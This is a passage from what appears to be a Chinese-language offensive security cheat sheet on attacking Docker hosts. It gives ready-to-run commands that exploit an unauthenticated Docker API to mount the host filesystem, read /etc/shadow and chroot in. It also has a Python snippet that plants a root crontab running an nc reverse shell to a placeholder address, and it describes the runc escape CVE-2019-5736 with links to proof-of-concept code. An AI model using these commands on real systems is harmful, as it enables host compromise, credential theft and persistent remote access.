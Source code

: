         docker -H tcp://[IP] run -it --privileged=true busybox sh
        fdisk -l
        mkdir /aaa
        mount /dev/dm-0 /aaa

        或

        docker -H tcp://xx.xx.xx.xx:2375 run -it -v /:/mnt busybox sh
        cd /mnt
        ls

        或

        docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
        cat /mnt/etc/shadow
        chroot /mnt

        # 拿下后直接写 crontab 即可
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```py
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

## 容器服务缺陷

**CVE-2019-5736 漏洞逃逸**
- 漏洞描述

    Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，runC 是用于创建和运行 Docker 容器的 CLI 工具,runC 18.09.2版本前的 Docker 允许恶意容器覆盖宿主机上的 runC 二进制文件。攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改掉 runc 的二进制文件，从而获取到宿主机的 root 执行权限。

- 影响版本
    - Docker Version < 18.09.2
    - runC Version <= 1.0-rc6

- 相关文章
    - [Breaking out of Docker via runC - Explaining CVE-2019-5736](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)
    - [RUNC 严重安全漏洞CVE-2019-5736 导致容器逃逸](http://blog.nsfocus.net/runc-cve-2019-5736/)

- POC | Payload | exp
    - [Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
